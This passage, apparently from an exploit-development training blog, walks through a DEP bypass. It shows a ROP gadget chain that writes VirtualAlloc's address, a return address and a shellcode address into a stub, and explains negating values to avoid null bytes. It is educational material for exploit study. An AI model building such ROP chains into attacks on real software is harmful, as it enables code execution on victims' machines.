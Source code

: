 ```py
...
##############
# -> Patch VirtualAlloc API Base Address (0x45454545)
##############
## Put VirtualAlloc address on EAX and make it a Pointer
0x6ab00efd,  # pop eax; ret; 
0x690398A0,  # VirtualAlloc	KERNEL32
0x61bb8cb3,  # mov eax, dword ptr [eax]; ret;
## Write-where EAX in ECX as a dword (pointer)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

##############
# -> Patch Return Address and Shellcode Address (0x46464646 and 0x47474747)
##############
## Increment ECX in 4 bytes, to align the stack
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## Copy ECX to EAX
0x6ab445f9,  # mov eax, ecx; ret;
## PUT -320 on EDX
0x61e30fe3,  # pop edx; ret;
0xfffffce0,  # -320
## -320 become 320
0x6eb47012,  # neg edx; ret;
## Increase EAX in 320
0x6ab00690,  # add eax, edx; ret;
## Write this address on ECX (0x46464646)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
## Increase 4 bytes in ECX
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
0x68aca037,  # inc ecx; ret;
## Write the value again on 0x47474747 (ECX)
0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

...
```

So, we execute it. We start we make the INC 4 bytes, make the COPY to EAX, put -320 in EDX, NEG EDX, add EDX to EAX, write in ECX, then INC ECX more 4 bytes and the write it again.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/1.gif)

With that we have already patched three of the arguments, now let's move on.

# dwSize

Now, let's change the dwSize, which must be 00000001, the problem here is that this value contain nullbyte, so we'll make the same thing we did before, INC ECX in 4 bytes, to align the stack, put the -00000001 no EAX and then negate it. The last thing will be write it on ECX.
